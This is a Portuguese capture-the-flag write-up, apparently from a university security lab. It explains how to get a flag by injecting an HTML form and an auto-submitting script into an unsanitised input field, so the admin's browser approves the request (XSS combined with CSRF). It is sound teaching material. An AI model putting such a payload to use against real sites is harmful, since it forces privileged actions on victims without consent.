




# CTF

No presente desafio, temos como objetivo empregar táticas de XSS e CSRF para obter a flag com aprovação do administrador.
Temos acesso a um website para pedir a flag ao administrador através de um *form* com um campo de entrada e também acesso à página onde o administrador aceita pedidos, embora sem permissões de administrador.







Começando por analisar o botão "Give the flag" na página de administrador, vemos que tem a seguinte estrutura HTML:

```html
<form method="POST" action="/request/87750fe812746ead3ffae84a25b16e2096f6d188/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```

Sabendo que o campo de entrada que nos é disponível não sanitiza *input*, é-nos possível utilizar *tags* de HTMl para criar elementos e até código.
Do seguinte modo, criamos um *form* semelhante ao já existente na página de *login*, juntamente com um *script* que o submete quando a página carrega: 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/ced489dc341740b1903808ced7334f67535699ec/approve" role="form">
    <div class="submit">
        <input id="giveflag" type="submit" value="Give the flag"></input>
    </div>
</form>
<script>
    document.querySelector('form').submit();
</script>
```

